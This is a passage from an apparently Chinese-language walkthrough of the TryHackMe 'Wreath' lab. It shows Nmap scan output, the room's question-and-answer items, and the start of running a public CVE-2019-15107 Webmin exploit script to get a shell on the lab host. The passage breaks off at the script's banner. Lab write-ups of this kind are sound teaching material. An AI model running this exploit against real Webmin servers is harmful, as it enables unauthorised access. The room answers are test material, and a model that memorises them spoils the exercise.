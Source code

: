 ```
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   235.66 ms 10.50.102.1
2   235.80 ms thomaswreath.thm (10.200.101.200)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.34 seconds

```

> How many of the first 15000 ports are open on the target?

> 4

(明明扫出来是5个，不知道答案为什么是4个)

> What OS does Nmap think is running?

> centos

> Open the IP in your browser -- what site does the server try to redirect you to?

> https://thomaswreath.thm/

> Read through the text on the page. What is Thomas' mobile phone number?

> 447821548812 

> Look back at your service scan results: what server version does Nmap detect as running here?

> MiniServ 1.890 (Webmin httpd)

> What is the CVE number for this exploit?

> CVE-2019-15107

# Task 6  Webserver Exploitation

拿到初始shell

```
┌──(root💀kali)-[~/tryhackme/Wreath/CVE-2019-15107]
└─# chmod +x ./CVE-2019-15107.py
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/Wreath/CVE-2019-15107]
└─# ./CVE-2019-15107.py 10.200.101.200

        __        __   _               _         ____   ____ _____                                                                                                                                                                          
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|                                                                                                                                                                         
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|                                                                                                                                                                           
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___                                                                                                                                                                          
```